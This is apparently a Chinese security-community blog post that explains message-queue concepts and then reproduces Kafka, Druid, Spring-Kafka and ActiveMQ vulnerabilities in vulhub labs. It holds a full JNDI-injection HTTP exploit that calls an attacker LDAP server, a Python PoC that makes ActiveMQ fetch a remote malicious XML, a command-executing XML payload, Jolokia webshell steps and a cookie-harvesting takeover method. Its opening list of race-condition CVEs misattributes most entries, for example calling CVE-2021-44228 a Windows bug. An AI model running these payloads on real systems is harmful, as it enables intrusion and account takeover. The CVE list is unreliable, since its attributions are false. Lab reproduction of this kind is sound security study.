


# 须佐能乎｜MQ 安全技术探析 - 先知社区

须佐能乎｜MQ 安全技术探析

- - -

去年的**中忍考试**中没答上来 MQ 相关的题，趁年初事不多把相关知识好好理一理

本篇文章会从 0 到 1 帮助自己和读者理解什么是 MQ、MQ 的使用场景、MQ 相关产品的漏洞，以及在工作中笔者遇到的可能与 MQ 相关的问题

- - -

消息队列（Message Queue，MQ）是一种重要的中间件技术，广泛用于解耦应用组件、增强系统的可扩展性和可靠性。

# 消息队列使用场景研究

## 异步处理

-   异步处理是一种与同步处理相对的概念。
-   在同步处理中，一个操作会一直等待另一个操作完成，然后再继续执行。
-   而在异步处理中，一个操作不会等待另一个操作完成，而是直接继续执行。

当一个操作包含不需要立即完成的任务时（例如发送电子邮件、进行日志记录或者处理耗时的数据操作），可以将这些任务放入消息队列异步处理，从而提高用户请求的响应速度

### 异步处理的使用场景

假设我们要从服务器获取一张图片。在同步处理中，我们会发送一个请求到服务器，然后一直等待服务器返回图片数据，然后再显示图片。而在异步处理中，我们会发送一个请求服务器，然后立即开始显示图片，当服务器返回图片数据后，我们会将其更新到显示的图片上。

### 异步处理的缺点

-   代码逻辑复杂：异步处理的代码逻辑可能更加复杂，因为需要考虑多个操作之间的并发关系
-   并发问题：在异步处理中，可能会出现一些并发问题，例如数据竞争、死锁等
-   难以调试：异步处理的代码可能更加难以调试，因为很难确定某个问题是哪个操作导致的

### 异步处理导致的漏洞

上面讲到异步处理的缺点，其中就有一些耳熟能详的词语，比如数据竞争。

在 CTF 中经常碰到条件竞争的漏洞，一般就是由于性能问题或者异步问题且没有线程锁导致的漏洞。

异步导致的条件竞争漏洞也比较多：

-   **CVE-2022-22963:** Apache Log4j 2 中的条件竞争漏洞，可导致远程代码执行。
    
-   **CVE-2022-20525:** Spring Framework 中的条件竞争漏洞，可导致远程代码执行。
    
-   **CVE-2021-44228:** Microsoft Windows 中的条件竞争漏洞，可导致本地权限提升。
    
-   **CVE-2021-34527:** Linux 内核中的条件竞争漏洞，可导致本地权限提升。
    
-   **CVE-2020-14723:** OpenSSH 中的条件竞争漏洞，可导致远程代码执行。
    
-   ...
    

## 系统解耦

解耦是指将一个系统或事物分解成多个独立模块或部分，使得每个模块或部分都具有特定的功能，并且模块或部分之间相互依赖的程度尽可能低。

在微服务或分布式系统中，消息队列可能减少服务之间的直接依赖，每个服务只需与消息队列交互，从而降低系统复杂度和提高模块的独立性。

- - -

理论有些抽象 那就用代码来具象理解一下

### 耦合

代码耦合的写法：

```plain
def send_email(user, message):
  # 验证用户
  if not user.is_valid():
    raise ValueError("Invalid user")

  # 发送电子邮件
  smtp_client = smtplib.SMTP("smtp.gmail.com", 587)
  smtp_client.starttls()
  smtp_client.login(user.email, user.password)
  smtp_client.sendmail(user.email, message)
  smtp_client.quit()


# 测试代码
user = User("may@example.com", "password123")
message = "Hello, Mo60"

try:
  send_email(user, message)
except ValueError as e:
  print(e)
```

这段代码实现了一个很简单的判断用户可用性然后发送邮件的功能

这段代码存在一下耦合问题：

-   函数的功能混合在一起，`send_mail`函数既负责验证用户，也负责发送电子邮件。这使得代码难以理解和维护
-   函数的以来关系难以改变。如果我们需要改变验证用户的逻辑则需要修改`sendmail`函数。这可能会影响其他依赖该函数的代码

### 松耦合

为了解决这些问题，我们可以将代码解耦承一下两个函数：

```plain
def validate_user(user):
  if not user.is_valid():
    raise ValueError("Invalid user")

def send_email(user,message):
  #发送电子邮件
  smtp_client = smtplib.SMTP("smtp.gmail.com",587)
  smtp_client.starttls()
  smtp_client.login(user.email,user.password)
  smtp_client.quit()

user = User("may@exmaple.com","password123")
message = "hello, mo60!"

try:
  validate_user(user)
  send_email(user,message)
except ValueError as e:
  print(e)
```

解耦的代码具有以下优点：

-   函数的功能更加清晰，`validate_user()`函数只负责验证用户，`send_email()`函数只负责发送电子邮件
-   函数的依赖关系更加灵活。我们可以根据需要修改`validate_user()`函数的逻辑，而无需修改`send_email()`函数，这样依赖于`send_email()`函数的代码将不会受到影响

## 流量削峰

在高并发场景下，瞬时流量可能会超过系统处理能力，通过使用消息队列，可以暂存过多的请求，按照系统能够处理的速度逐渐消化，避免系统过载

在没做流量削峰前，面对突如其来的流量高峰，可能直接导致服务端的报错

如图（手工画 抽象）展示了流量削峰前的 RPS 柱状图，在超出绿线所表示的服务器正常请求处理能力范围后服务器可能直接返回 HTTP 429 代码

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240219171038338.png)

在流量削峰后，能够将超出服务器处理能力部分的请求，根据权重滞后处理

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240219172421631.png)

## 负载均衡

在处理大量任务或数据时，消息队列可以帮助分配工作负载，将消息平均分配给多个处理单元，以实现负载均衡，提高服务可用性和响应速度

## 数据一致性

在分布式系统中，消息队列可以用于维护不同服务和组件之间的数据一致性，通过顺序处理消息来确保操作正确执行

## 事件驱动架构

消息队列支持基于事件的编程模型，系统组件可以产生和消费事件，促进了松耦合和灵动的系统设计

-   事件驱动架构（Event-Driven Architecture, EDA）是一种软件架构模式，它基于事件的产生、检测、消费来驱动应用程序的行为和通信。在这种架构下，应用程序的组件通过发布（发送）和订阅（接收）事件来进行交互，而不是通过直接的方法调用或数据共享。这种模式促进了应用程序组件之间的低耦合，提高了系统的灵活性和可扩展性。

```plain
class EventCenter:
    def __init__(self):
        self.listeners = dict()

    def subscribe(self, event_type, listener):
        if event_type not in self.listeners:
            self.listeners[event_type] = [listener]
        else:
            self.listeners[event_type].append(listener)

    def publish(self, event_type, event):
        if event_type in self.listeners:
            for listener in self.listeners[event_type]:
                listener(event)

def producer(event_center):
    event_center.publish("new_message", {"message": "Hello, Event-Driven Architecture!"})

def consumer(event):
    print(f"Received an event: {event}")

# 创建事件中心实例
event_center = EventCenter()

# 订阅事件
event_center.subscribe("new_message", consumer)

# 发布事件
producer(event_center)
```

这段代码演示了事件驱动架构，使用事件中心 (EventCenter) 进行事件通信。

1.  创建事件中心实例 `event_center`。
2.  订阅 "new\_message" 事件的监听器 `consumer`。
3.  调用 `producer` 发布 "new\_message" 事件，将消息数据 `{"message": "Hello, Event-Driven Architecture!"}` 传递给事件中心。
4.  事件中心找到已订阅 "new\_message" 事件的监听器列表，并逐一调用 `consumer`，将事件数据传递给它。
5.  `consumer` 接收事件数据，并打印 "Received an event: {"message": "Hello, Event-Driven Architecture!"}".

**优点：**

-   **解耦**: 事件发布者和订阅者之间解耦，发布者不知道谁订阅了事件，订阅者也不知道事件来自哪里。
-   **可扩展**: 易于添加新的事件类型和监听器。
-   **可重用**: 事件中心可以用于不同的发布/订阅场景。

**缺点：**

-   **中央化**: 事件中心成为单点故障，其性能和可用性会影响整个系统。
-   **调试复杂**: 调试事件流可能比较困难。

## 日志收集和处理

消息队列可以用于收集来自系统各部分的日志数据，统一发送到日志系统或数据仓库进行分析和存储。

- - -

消息队列的产品众多，也各有其特点和适用场景，这里我们只讨论开源产品

# Apache Kafka

[https://kafka.apache.org/](https://kafka.apache.org/)

由 LinkedIn 开发并贡献给 Apache 的开源分布式事件流平台，主要用于处理高吞吐量的数据。

kafka 的默认连接端口为 9092/tcp

## Druid - Kafka 的可视化客户端

kafka 本身没有提供 web 端的可视化，那么就需要通过一些客户端来进行数据可视化，主流客户端包括**Grafana**、**Druid**、**Kibana**

### CVE-2023-25194

这个漏洞的本质上是存在于`kafka-clients`，而 Druid 正好使用了受影响的`kafka-clients`版本

在版本 3.4.0 以前，Apache Kafka clients 中存在一处 JNDI 注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起 JNDI 连接，进而导致 JNDI 注入漏洞，执行任意命令。

由于这个漏洞是存在于 Java 库 kafka-clients 中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。

这个软件就是 Apache Druid，其使用 kafka-clients 来连接 Kafka 作为其数据源之一。

具体的漏洞细节可以查看这位师傅写的文章：[https://xz.aliyun.com/t/12602](https://xz.aliyun.com/t/12602)

使用 vulhub 来部署测试环境，docker-compose.yml 如下

```plain
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```

部署后访问[http://127.0.0.1:8888可以看到Druid首页](http://127.0.0.1:8888可以看到Druid首页)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220215851123.png)

Exp：

```plain
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: {{Hostname}}:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

我们通过`JNDIExploit-SNAPSHOT.jar`启动一个恶意 jndi 服务器，然后将 exp 中的 ldap 地址进行替换

`JNDIExploit`建议使用原版仓库自行编译或者下载`releases`

`WhiteHSBG`师傅改版的`JNDIExploit`在`1.4`版本中存在目录穿越漏洞，各位师傅如果有使用的要注意这个问题避免被反制：

[https://github.com/WhiteHSBG/JNDIExploit/issues/10](https://github.com/WhiteHSBG/JNDIExploit/issues/10)

这里也不建议使用`yakit`自带的`Yso-Java Hack`反连，笔者在使用它复现的时候一直没打成功，可能是 mac arm 架构下的 bug 也不一定？

exp 中使用的是`JNDIExploit`提供的基础命令执行的 base64 传递方式

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220191016899.png)

替换 exp 中的`ldap`地址，这里演示的是执行`id > /tmp/success`，也就是将 id 命令的执行结果写入/tmp/success

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220185440837.png)

这里其实也踩了挺久的坑，在打 exp 的时候一直出现这种情况，推测是网络架构的问题，但检查了代理之类的网络配置都没有发现问题

尝试了几次`docker-compose restart`都无果，可能是玄学问题在某一次 restart 之后打 exp 又正常了

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220192326499.png)

最后总算是打成功了

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220185345157.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220192704712.png)

## Spring-Kafka

Spring Kafka 是 Spring Framework 生态系统中的一个模块，用于简化在 Spring 应用程序中集成 Apache Kafka 的过程，记录 (record) 指 Kafka 消息中的一条记录。

工作流程如下

1、生产者将消息发送到 Kafka 集群中的某个 Broker（也可以是多个）2、Kafka 集群将消息存储在一个或多个分区中，并为每个分区维护一个偏移量 3、消费者订阅一个或多个主题，并从 Kafka 集群中读取消息。4、消费者按顺序读取每个分区中的消息，并跟踪每个分区的偏移量。

-   ErrorHandlingDeserializer：是 Kafka 中的一种反序列化器（Deserializer），它可以在反序列化过程中处理异常和错误。
    
-   checkDeserExWhenKeyNull && checkDeserExWhenValueNull：是 Kafka 中的一种序列化器（Serializer），它可以在序列化过程中检查键（key/value）是否为 null，并在发现值为 null 时抛出异常。
    

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220203540137.png)

### CVE-2023-34040

影响范围：2.8.1 <= Spring-Kafka <= 2.9.10 3.0.0 <= Spring-Kafka <= 3.0.9

受影响版本中默认未对记录配置 ErrorHandlingDeserializer，当用户将容器属性 checkDeserExWhenKeyNull 或 checkDeserExWhenValueNull 设置为 true(默认为 false)，并且允许不受信任的源发布到 Kafka 主题中时，攻击者可将恶意 payload 注入到 Kafka 主题中，当反序列化记录头时远程执行任意代码。

我们可以通过这个项目部署 Spring-Kafa：[https://github.com/Contrast-Security-OSS/Spring-Kafka-POC-CVE-2023-34040](https://github.com/Contrast-Security-OSS/Spring-Kafka-POC-CVE-2023-34040)

首先启动 Docker 化的 kafka 实例

```plain
root@debianbookworm:~/research/kafka/Spring-Kafka-POC-CVE-2023-34040-main#
cd Spring-Kafka-POC-CVE-2023-34040-main
root@debianbookworm:~/research/kafka/Spring-Kafka-POC-CVE-2023-34040-main#
docker-compose up -d
```

kafka 将开放在 29092 端口

```plain
docker ps
a7ade64f3d01   confluentinc/cp-kafka:latest        "/etc/confluent/dock…"   59 minutes ago   Up 59 minutes   9092/tcp, 0.0.0.0:29092->29092/tcp, :::29092->29092/tcp                spring-kafka-poc-cve-2023-34040-main_kafka_1
6b269e0537b2   confluentinc/cp-zookeeper:latest    "/etc/confluent/dock…"   59 minutes ago   Up 59 minutes   2888/tcp, 3888/tcp, 0.0.0.0:22181->2181/tcp, :::22181->2181/tcp        spring-kafka-poc-cve-2023-34040-main_zookeeper_1
```

在 mvn 构建之前，我们需要修改`application.yaml`中的`server`配置，将其指向 docker 容器正确的地址

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220215155664.png)

进入 spring-kafka-consumer 目录通过 mvn 构建 kafka-consumer 这里大概需要 10 分钟时间

```plain
root@debianbookworm:~/research/kafka/Spring-Kafka-POC-CVE-2023-34040-main/spring-kafka-consumer#
mvn clean install
[INFO] Scanning for projects...
Downloading from central: https://repo.maven.apache.org/maven2/com/fasterxml/jackson/jackson-parent/2.13/jackson-parent-2.13.pom
Downloaded from central: https://repo.maven.apache.org/maven2/com/fasterxml/jackson/jackson-parent/2.13/jackson-parent-2.13.pom (7.4 kB at 790 B/s)
Downloading from central: https://repo.maven.apache.org/maven2/com/fasterxml/oss-parent/43/oss-parent-43.pom
...
[INFO] Installing /Users/may/research/MQ研究/Spring-Kafka-POC-CVE-2023-34040/spring-kafka-consumer/target/spring-kafka-poc-consumer-0.0.1-SNAPSHOT.jar to /Users/may/.m2/repository/com/contrast/spring-kafka-poc-consumer/0.0.1-SNAPSHOT/spring-kafka-poc-consumer-0.0.1-SNAPSHOT.jar
[INFO] Installing /Users/may/research/MQ研究/Spring-Kafka-POC-CVE-2023-34040/spring-kafka-consumer/pom.xml to /Users/may/.m2/repository/com/contrast/spring-kafka-poc-consumer/0.0.1-SNAPSHOT/spring-kafka-poc-consumer-0.0.1-SNAPSHOT.pom
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  11:07 min
[INFO] Finished at: 2024-02-20T21:04:18+08:00
[INFO] ------------------------------------------------------------------------
```

然后启动一个 springboot 项目 mvn spring-boot:run

```plain
mvn spring-boot:run

[INFO] Scanning for projects...
[INFO]
[INFO] ---------------< com.contrast:spring-kafka-poc-consumer >---------------
[INFO] Building spring-kafka-poc-consumer 0.0.1-SNAPSHOT
[INFO]   from pom.xml
[INFO] --------------------------------[ jar ]---------------------------------
[INFO]
[INFO] >>> spring-boot:2.7.14:run (default-cli) > test-compile @ spring-kafka-poc-consumer >>>
[INFO]
[INFO] --- resources:3.2.0:resources (default-resources) @ spring-kafka-poc-consumer ---
[INFO] Using 'UTF-8' encoding to copy filtered resources.
[INFO] Using 'UTF-8' encoding to copy filtered properties files.
[INFO] Copying 1 resource
[INFO] Copying 1 resource
[INFO]
[INFO] --- compiler:3.10.1:compile (default-compile) @ spring-kafka-poc-consumer ---
[INFO] Nothing to compile - all classes are up to date
[INFO]
[INFO] --- resources:3.2.0:testResources (default-testResources) @ spring-kafka-poc-consumer ---
[INFO] Using 'UTF-8' encoding to copy filtered resources.
[INFO] Using 'UTF-8' encoding to copy filtered properties files.
[INFO] skip non existing resourceDirectory /Users/may/research/MQ研究/Spring-Kafka-POC-CVE-2023-34040/spring-kafka-consumer/src/test/resources
[INFO]
[INFO] --- compiler:3.10.1:testCompile (default-testCompile) @ spring-kafka-poc-consumer ---
[INFO] No sources to compile
[INFO]
[INFO] <<< spring-boot:2.7.14:run (default-cli) < test-compile @ spring-kafka-poc-consumer <<<
```

然后我们去构建 producer 这里速度比较快

```plain
mvmvn clean install

[INFO] Scanning for projects...
[INFO]
[INFO] ---------------< com.contrast:spring-kafka-poc-producer >---------------
[INFO] Building spring-kafka-poc-producer 0.0.1-SNAPSHOT
[INFO]   from pom.xml
[INFO] --------------------------------[ jar ]---------------------------------
[INFO]
[INFO] --- clean:3.2.0:clean (default-clean) @ spring-kafka-poc-producer ---
[INFO]
[INFO] --- resources:3.2.0:resources (default-resources) @ spring-kafka-poc-producer ---
[INFO] Using 'UTF-8' encoding to copy filtered resources.
[INFO] Using 'UTF-8' encoding to copy filtered properties files.
[INFO] Copying 1 resource
[INFO] Copying 1 resource
...
[INFO] --- install:2.5.2:install (default-install) @ spring-kafka-poc-producer ---
[INFO] Installing /Users/may/research/MQ研究/Spring-Kafka-POC-CVE-2023-34040/spring-kafka-producer/target/spring-kafka-poc-producer-0.0.1-SNAPSHOT.jar to /Users/may/.m2/repository/com/contrast/spring-kafka-poc-producer/0.0.1-SNAPSHOT/spring-kafka-poc-producer-0.0.1-SNAPSHOT.jar
[INFO] Installing /Users/may/research/MQ研究/Spring-Kafka-POC-CVE-2023-34040/spring-kafka-producer/pom.xml to /Users/may/.m2/repository/com/contrast/spring-kafka-poc-producer/0.0.1-SNAPSHOT/spring-kafka-poc-producer-0.0.1-SNAPSHOT.pom
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  1.716 s
[INFO] Finished at: 2024-02-20T21:07:30+08:00
[INFO] ------------------------------------------------------------------------
```

我们运行`springKafkaDemo-0.0.1-SNAPSHOT.jar`，然后访问[http://127.0.0.1:8899](http://127.0.0.1:8899/) 复现成功

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220215040522.png)

## 梦里的 Druid

记得之前在省梦的时候梦到过 Druid 未授权访问泄露`SESSION`的漏洞，路径在`/druid/websession.html`

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221120348170.png)

在`session监控`功能中会展示用户访问所监控目标网页所携带的`cookie`，其中就可能包含高权限用户的`cookie`，那么我们就可以爬取所有的`cookie`字段然后通过`burpsuite`或者`yakit`将其作为`Cookie`字段的爆破字典进行爆破，根据返回包大小得到判断并接管高权限用户

值得一提的是这个漏洞其实是在比较旧的`druid`版本中才会存在，这里通过`vulhub`进行演示所部署的 druid 已经移除了`/druid/websession.html`页面

对于爬取页面上的`PHPSESSID`或者模块化了的数据其实有一个很好用的插件在这里推荐一下

[https://chromewebstore.google.com/detail/xpath-helper/hgimnogjllphhhkhlmebbmlgjoejdpjl](https://chromewebstore.google.com/detail/xpath-helper/hgimnogjllphhhkhlmebbmlgjoejdpjl)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221123131016.png)

这个插件可以通过在浏览器中复制的`xpath`直接匹配对应的资源，如果使用`python`写类似功能的话其实比较麻烦，因为我们都知道通过`python`的`requests`发起请求后得到的`response`实际上不会进过浏览器`渲染`，那么通过浏览器复制的`xpath`自然就无法在`python`中直接进行匹配

但是这个插件由于直接运行在浏览器中，`xpath`所匹配的`原数据`也是经过浏览器渲染的数据，所以可以很好的匹配

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221123327240.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221123540361.png)

当然这个插件是在单页或者页数比较少情况下比较好用，如果需要自动化的爬取多页上的数据，那还是 python 好用

# Apache ActiveMQ

[https://activemq.apache.org/](https://activemq.apache.org/)

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务、集群、Spring Framework 等。

ActiveMQ 运行后，默认监听如下两个端口：

| 默认端口 | 默认条件 |
| --- | --- |
| 8161 web 端口 | 需配置才可远程访问 |
| 61616 tcp | 远程访问 |

## CVE-2023-46604

影响版本：

-   Apache ActiveMQ < 5.18.3
-   Apache ActiveMQ < 5.17.6
-   Apache ActiveMQ < 5.16.7
-   Apache ActiveMQ < 5.15.16

使用 vulhub 部署环境

```plain
version: '2'
services:
 activemq:
   image: vulhub/activemq:5.17.3
   ports:
    - "61616:61616"
    - "8161:8161"
    - "5005:5005"
```

有了 vulhub 我们复现漏洞固然轻松简单，漏洞的分析也有前辈撰写的佳作：[https://xz.aliyun.com/t/12929](https://xz.aliyun.com/t/12929)

所以在这里我们只了解这个漏洞大概的原理，根据 poc 来进行学习

```plain
import io
import socket
import sys


def main(ip, port, xml):
    classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip, port))

    with socket_obj:
        out = socket_obj.makefile('wb')
        # out = io.BytesIO()  # 创建一个内存中的二进制流
        out.write(int(32).to_bytes(4, 'big'))
        out.write(bytes([31]))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
        # print(list(out.getvalue()))
        out.flush()
        out.close()


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
              "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
```

其实看到`org.springframework.context.support.ClassPathXmlApplicationContext`就知道，这是攻击了 Spring 框架中用于加载 XML 配置文件的类，那么攻击原理可能是这样：

```plain
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

通过引入恶意的 xml 来执行代码

```plain
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>touch</value>
                <value>/tmp/activeMQ-RCE-success</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

这个 xml 执行了 touch /tmp/activeMQ-RCE-success命令，具体复现参考vulhub

## CVE-2022-41678

Apache ActiveMQ 在 5.16.5, 5.17.3 版本及以前，后台 Jolokia 存在一处任意文件写入导致的远程代码执行漏洞。

### Jolokia

`Jolokia` 是一个简单但功能强大的远程 `JMX`（Java Management Extensions）代理，它提供了一种通过 `HTTP/JSON` 接口来访问 `JMX bean` 的方法。它主要用于远程管理和监控 Java 应用程序。Jolokia 通过提供一个 `HTTP API` 来访问 `JMX MBeans`，使得在不同平台和语言之间进行交互变得更加容易，特别是在 Web 应用程序和现代监控工具中。

有一些常见的使用 Jolokia 的应用：

-   **Spring Boot**：Spring Boot 应用可以通过 Jolokia 获取 JMX 数据，特别是当应用部署在容器化环境中时，Jolokia 提供了一种便捷的方式来暴露应用的 JMX 数据。
    
-   **Apache Camel**：Apache Camel 是一个集成框架，它提供了 Jolokia 的支持来监控和管理 Camel 路由。
    
-   **Kubernetes**：在 Kubernetes 环境中，Jolokia 可以用于从 Java 应用收集指标并将其暴露给集群的监控系统，如 Prometheus。
    
-   **ActiveMQ**：Apache ActiveMQ 是一个消息代理，它支持通过 Jolokia 访问其 JMX 指标，方便监控和管理消息队列的状态。
    
-   **Elasticsearch**：虽然 Elasticsearch 主要是用 Java 编写的，但它也可以通过 Jolokia 集成到更广泛的监控解决方案中，以便监控其 JVM 性能和其他运行时指标。
    

Jolokia 在不同的应用中也导致过一些不同的漏洞，笔者记得当初玩 edusrc 的时候，第一个高危漏洞就是 Sprint-boot 中由 Jolokia 导致的 XXE 漏洞

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221152659065.png)

[https://www.hacking8.com/bug-product/Spring-Boot/Spring-Boot-Actuator-jolokia-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84XXE%E6%BC%8F%E6%B4%9E.html](https://www.hacking8.com/bug-product/Spring-Boot/Spring-Boot-Actuator-jolokia-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84XXE%E6%BC%8F%E6%B4%9E.html)

### 漏洞环境

执行如下命令启动一个 Apache ActiveMQ 5.17.3 服务器：

```plain
docker compose up -d
```

服务启动后，访问`http://your-ip:8161/`后输入账号密码`admin`和`admin`，即可成功登录后台。

### 漏洞复现

首先，访问`/api/jolokia/list`这个 API 可以查看当前服务器里所有的 MBeans：

```plain
GET /api/jolokia/list HTTP/1.1
Host: localhost:8161
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://localhost
```

这其中有两个可以被用来执行任意代码。

注意在访问这个接口为了防止`csrf`，请求头必须携带`Origin`或`Referer`，否则会返回`403`

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221153341619.png)

### 方法 1

第一个方法是使用`org.apache.logging.log4j.core.jmx.LoggerContextAdminMBean`，这是由 Log4j2 提供的一个`MBean`。

攻击者使用这个 MBean 中的`setConfigText`操作可以更改`Log4j`的配置，进而将日志文件写入任意目录中。

使用[poc](https://xz.aliyun.com/t/poc.py)脚本来复现完整的过程：

```plain
python poc.py -u admin -p admin http://your-ip:8161
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221154028943.png)

Webshell 被写入在`/admin/shell.jsp`文件中：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221154053169.png)

这个方法受到 ActiveMQ 版本的限制，因为 Log4j2 是在 5.17.0 中才引入 Apache ActiveMQ。

### 方法 2

第二个可利用的 Mbean 是`jdk.management.jfr.FlightRecorderMXBean`。

FlightRecorder 是在 OpenJDK 11 中引入的特性，被用于记录 Java 虚拟机的运行事件。利用这个功能，攻击者可以将事件日志写入任意文件。

使用[poc](https://xz.aliyun.com/t/poc.py)脚本来复现完整的过程（使用`--exploit`参数指定使用的方法）：

```plain
